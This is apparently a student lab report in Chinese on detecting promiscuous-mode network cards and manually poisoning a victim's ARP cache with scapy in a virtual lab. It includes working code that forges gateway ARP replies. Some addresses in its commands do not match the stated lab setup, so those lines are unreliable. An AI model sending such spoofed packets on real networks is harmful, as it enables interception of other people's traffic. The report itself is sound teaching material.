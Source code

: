 ## 网络监听

### 实验环境

+ 网关`Debian-Gateway`
  + 172.16.111.1
  + 08:00:27:53:fa:69 / eth0
+ 攻击者主机`Kali-Attacker`
  + 172.16.111.140
  + 08:00:27:2a:7a:40 / eth0
+ 受害者主机`Kali-victim1`
  + 172.16.111.128
  + 08:00:27:44:1b:1e / eth0

### 检测局域⽹中的异常终端

#### 实验过程

+ 在受害者主机上检查网卡的「混杂模式」是否启用
  ```bash
  ip link show eth0
  ```

  ![](./image/ShowEth0.PNG)

+ 在攻击者主机上用scapy的promiscping发送Arp包，发现没有回应
  ```bash
  pkt = promiscping("172.16.111.128")
  ```

  ![](./image/没有回应.PNG)

+ 回到受害者主机上开启网卡的**混杂模式**,输出结果里多出来了`PROMISC` 

  ```bash
  ip link set eth0 promisc on

  ip link show eth0
  ```
  
  ![](./image/混杂模式.PNG)
  
+ 回到攻击者主机上的`scapy`交互式终端继续执行命令,发现收到了回复，抓包结果也验证了这一点,于是发现了处于混杂模式的网卡
  ```bash
  pkt = promiscping("172.16.111.128")
  ```

  ![](./image/收到回复.PNG)

  ![](./image/抓包结果.PNG)

---

###  手工单步“毒化”目标主机的 ARP 缓存

### 实验过程

+ 以下代码在攻击者主机上的 `scapy` 交互式终端完成
  
  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.168.111.1")

  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()

  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  
  ![](./image/过程.PNG)
  
+ 伪造网关的`ARP`响应包,发送给受害者主机
   
  ```bash
  # 准备发送给受害者主机 172.16.111.128
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=Ether(dst="08:00:27:44:1b:1e")/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.128", hwdst="08:00:27:2a:7a:40")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)

  # 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ip neigh
  ```
    
  ![](./image/毒化.PNG)

+ 恢复受害者主机的 `ARP` 缓存记录
  
  ```bash
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="192.168.0.1", hwsrc="08:00:27:2a:4b:04", pdst="192.168.0.102", hwdst="08:00:27:aa:ff:3e")

  sendp(restorepkt1, count=100, inter=0.2)

  # 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  # 静候几秒 ARP 缓存刷新成功，退出 ping
  # 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
  
  ![](./image/恢复.PNG)

### 参考

+ [课本第四章实验](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html )



  



